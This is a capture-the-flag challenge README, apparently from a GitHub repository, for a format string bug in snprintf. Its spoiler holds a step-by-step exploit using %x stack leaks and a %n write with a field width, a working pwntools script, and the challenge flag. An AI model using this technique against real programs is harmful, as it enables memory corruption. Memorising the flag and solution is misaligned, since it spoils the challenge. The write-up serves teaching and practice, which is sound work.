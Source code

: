 # Title

## Authors
- @joooooooooooooooooooooooooooooooooooosh

## Category
- Binary Exploit

## Description
I'm trying to learn how to use snprintf(), but the different arguments keep confusing me...

## Difficulty
- Easy

## Points
100

## Files
- vuln: redacted version of the binary
- vuln.c: redacted version of the source code for vuln

## Solution
<details>
<summary>Spoiler</summary>

### Idea
When user input can control/affect the format string used in functions like printf/syslog families, they can leak data from memory and even write to memory (assuming the binary hasn't been fortified to prevent use of %n).

### Walkthrough
1. Format string shenanigans
    - LiveOverflow has some good videos detailing what format string are and how to exploit them (example below).
https://www.youtube.com/watch?v=0WvrSfcdq1I

2. Figure out where i is
    - In order to be able to write to the address of i, we need to make it part of our input so that it ends up on the stack - but make sure it's in little endian hex escaped form (e.g. to write 0xdeadbeef you could use `echo -en "\xef\xbe\xad\xde" | vuln`). Once we've done that, we can append a whole bunch of %x's to our input to leak the stack until we find where i is.

    - Note: I highly recommend separating the %x's (e.g. "|%x|%x|%x|%x") so that you don't go insane trying to figure out where each address starts and ends.

    - Now that we have a bunch of the stack leaked we find the area on the stack where our input starts. In this case since we've been told what the address of i is we can just look for that. It seems to always appear as the 7th entry in the stack for this program.

3. Start overwriting the value of i
    - To make sure we've got everything working, lets just try changing the value of i to *something*. Sending the address of i + "%7$n" will overwrite the value of i to be 4, so we can see we're on the right track.

4. Field width modifiers
    - Since %n writes a value representing how long the formatted string will be up until that point, we can change the value of i by adding more characters. Sending the address of i + "AAAAA%7$n" will overwrite the value of i to be 9, so the 5 A's incremented i's value by 5.

    - However we can't just put 995 As in front of %n, as the buffer doesn't have enough space to store that. What we can do is print out a random value with %x but force it to be (theoretically) 995 characters wide. This way %n will write a value of 999 but our actual input is small enough to fit inside the buffer. Sending the address of i + "%.995x%7$n" will set i to be 999 and give us the flag.

### Script
```python
#!/usr/bin/python3
# this works 9/10 times lol
# just try again if it fails and let ASLR run its magic
import pwn
pwn.context.log_level = 'debug'
p = pwn.process("vuln")
p.recvuntil("@ ")
i_addr = pwn.p32(int(p.recvline().strip(), 16))
# this is how i discovered the right offset to use
# (leak a whole bunch of the stack and manually look for the address of i)
# p.sendline(i_addr+b"|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x")
p.sendline(i_addr+b"%.995x%7$n")
p.interactive()
```

### Flag
`SKYLIGHT{stiLL_b3tt3r_formatt1ng_than_MS_Word}`
</details>
